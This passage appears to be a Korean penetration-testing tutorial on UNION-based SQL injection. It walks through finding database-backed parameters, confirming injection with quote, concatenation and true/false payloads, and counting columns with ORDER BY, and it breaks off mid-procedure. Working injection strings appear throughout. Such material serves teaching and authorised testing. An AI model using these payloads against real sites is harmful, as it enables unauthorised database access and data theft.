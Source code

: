 ```bash
[5] SELECT 1, version(), 3-- ;
```
일반적으로 상품ID가 음수인 경우는 없음(이 예제에서는 item_id=-99인 상품이 없다고 가정) 1~3번 라인은 어떠한 레코드도 반환하지 않는다. 따라서 최종 5번 라인의 쿼리 결과가 HTTP 응답에 표시.
공격자가 SQL 쿼리를 위와 같이 조작하게되면 데이터베이스의 버전을 확보 가능하다.
즉 UNION 기반 SQL Injection은 개발자에 의해 작성된 원래 SQL 쿼리에 공격자의 SQL 쿼리를 통합하고 원래의 SQL 쿼리를 무효화시킴으로써 결과적으로 공격자 쿼리에서만 유효한 데이터를 표시하게 되는 것이다.

# 테스트 방법
1. 데이터베이스와 통신하는 엔드포인트 식별
대상 웹 애플리케이션의 모든 기능을 사용해보고 데이터베이스와 통신하는 것으로 의심되는 모든 엔드포인트와 매개변수를 찾아 수집한다
만일 웹 애플리케이션 내에 다양한 사용자 권한이나 역할이 존재하고 서비스가 차등적으로 제공되나면 각 권한과 역할에 대한 모든 조합별로 사용자 계정을 생성해 웹 애플리케이션을 사용
공격 벡터느 GET 매개변수, POST body 매개변수, Cookie 등의 표준 요청 헤더나 커스텀 요청 헤더가 될 수 있음

2. 잠재적 취약 여부 검증
1.에서 수집한 진입점과 매개변수가 SQL Injection에 잠재적으로 취약한지 검사할 차례이다. **잠재적으로 취약하다는 의미는 사용자의 입력값이 SQL 쿼리로 해석되어 백엔드의 데이터베이스와 통신한다는 것을 의미**
매개변수의 값이 연결되는 데이터베이스 컬럼의 자료형이 문자열 타입인지, 숫자 타입인지에 따라 아래와 같은 방법으로 검증
- 문자열 타입인 경우
```bash
?idx=1234'

# 문자열 연산자의 기능이 정상적으로 수행되는지 확인
?idx=12'%20'34      (MySQL 또는 MariaDB)
?idx=12'%2B'34      (MSSQL)
?idx=12'||'34       (Oracle)


# AND와 같은 논리 조건을 주입
?idx=1234'+AND+1%3D1--+     (참이 되는 조건 주입)  
?idx=1234'+AND+1%3D2--+     (거짓이 되는 조건 주입)   

첫번째 요청의 응답이 원래 요청과 동일하고, 두번째 요청에서는 원래와 다른 요청이 출력된다면 SQL Injection에 취약하다.
```
- 숫자 타입인 경우
홑따옴표를 이용하여 숫자타입을 처리하는 웹 애플리케이션 같은 경우 사용이 가능하나 자료형을 엄격히 준수하여 개발된 웹 애플리케이션 같은 경우는 그렇지 않은 경우도 있다. 이러한 경우 아래와 같은 방법으로 데이터베이스와 연동되는지 확인한다.
```bash
?idx=4

# 원래 요청과 동일하다면 SQL Injection에 취약
?idx=5-1
?idx=3+1
?idx=53-ASCII(1)  ---> ASCII(1)의 값은 49로 계산 결과는 4임

# 논리 조건 주입
?idx=4+AND+1%3D1--+     (참이 되는 조건 주입)  
?idx=4+AND+1%3D2--+     (거짓이 되는 조건 주입)    
```

3. 컬럼 갯수 파악
```bash
# 컬럼 직접 지정
ORDER BY 컬럼명1, 컬럼명2, 컬럼명3

# SELECT절의 컬럼 순번 지정
ORDER BY 1, 2, 3
```
컬럼 갯수를 파악하기 위해선 두번째 방법을 사용.
주입 지점이 원래 쿼리의 WHERE절에 사용된 문자열이라고 가정할 때, 컬럼의 순번을 순차적으로 증가시키며 요청을 제출한다(숫자 타입인 경우 홑따옴표 제거).
비정상적인 응답이 표시되면 SELECT절의 컬럼 갯수는 비정상적인 응답 전의 순번과 동일하다.
```bash
?idx=1234'+ORDER+BY+1--+   (정상적인 응답)
?idx=1234'+ORDER+BY+2--+   (정상적인 응답)
```